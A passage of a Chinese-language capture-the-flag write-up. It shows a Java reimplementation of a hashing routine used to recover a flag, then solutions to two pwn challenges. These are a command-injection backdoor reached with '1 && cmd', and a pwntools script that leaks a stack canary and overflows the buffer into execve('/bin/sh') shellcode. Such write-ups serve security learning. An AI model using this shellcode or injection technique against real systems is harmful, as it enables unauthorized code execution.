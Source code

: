 ```java

        n7 = 0xb7bd2ec7;
        n8 = 0xa21b3d7e;
        n9 = 0x3245778a;
        n10 = 0xda2bfa66;
        n8 += bytex[0];
        n10 += bytex[1];
        for(int n=1;n<21;n++) {
            int n2 = n10 * (2 * n10 + 1) << 5 | n10 * (2 * n10 + 1) >>> 27;
            int n11 = n8 * (2 * n8 + 1) << 5 | n8 * (2 * n8 + 1) >>> 27;
            n9 = ((n9 ^ n2)>>>(32-n11) | (n9 ^ n2)<<n11) + bytex[2 * n + 1];
            n7 = ((n7^n11)>>>(32-n2) | (n7^n11)<<n2) +bytex[2 * n];
            for(int j=0;j<3;j++){
                int t = n10;
                n10 = n9;
                n9 = n8;
                n8 = n7;
                n7 = t;
            }
        }
        n9 += bytex[43];
        n7 += bytex[42];
        System.out.println(Integer.toHexString(n7)+Integer.toHexString(n8)+Integer.toHexString(n9)+Integer.toHexString(n10));
```
跑出来之后序是反着的，转了一下就是flag：
```python
r = "ea1fdf8a74ba5570e48ba8a37f64b0c6"
for i in range(0, 40, 8):
    for j in range(6, -2, -2):
        print(r[i + j:i + j + 2], end="")
```

# PWN
## leave_msg
6退出是后门，`system(echo input())`，直接`1 && cmd`就行了。

## easy_login
登录地方可以泄露canary和栈上一个指向栈上的指针，直接栈溢出ret2shellcode（长度受限好像刚好不能ROP）。
```python
from pwn import *


p = remote("pwn.challenge.ctf.show", 28147)
# p = process("pwn2")
sc = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05"
sc = sc.ljust(24, b"\x90")
p.sendlineafter(b"name:", b"cat_loves_her")
p.sendlineafter(b"password:  ", sc + b"a")
context.log_level = 'debug'
p.recvuntil(sc + b"a")
canary = b'\x00' + p.recvn(7)
addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(canary)
print(hex(addr))
p.sendlineafter(b"password:  ", sc + canary + b'b' * 8 + p64(addr-48))
#addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
#print(hex(addr))
p.interactive()
```
